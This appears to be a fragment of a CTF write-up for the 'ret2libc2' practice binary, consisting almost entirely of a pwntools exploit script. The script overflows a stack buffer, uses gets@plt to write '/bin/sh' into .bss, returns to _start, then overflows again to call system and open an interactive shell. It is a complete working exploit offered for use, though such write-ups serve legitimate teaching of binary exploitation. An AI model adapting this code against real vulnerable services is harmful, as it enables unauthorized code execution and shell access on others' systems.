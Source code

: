 ![image-20220202135029372](/assets/img/2022/image-20220202135029372.png)

exp:

```python
from pwn import *


r = process('./ret2libc2')
elf = ELF('./ret2libc2')

r.recvuntil('think ?')

gets_plt = elf.plt['gets']
system_plt = elf.plt['system']
_start= elf.symbols['_start']
bss_addr = 0x804A080

pause()
p = 'a'*(0x6c+0x4)
# p += p32(gets_plt)
# p += p32(system_plt)
# p += p32(bss_addr)
# p += p32(bss_addr)
p += p32(gets_plt)
p += p32(_start)
p += p32(bss_addr)
r.sendline(p)

r.sendline('/bin/sh')

r.recvuntil('think ?')
p = 'a'*(0x6c+0x4)
p += p32(system_plt)
p += p32(0xdeadbeef)
p += p32(bss_addr)
r.sendline(p)

r.interactive()
```
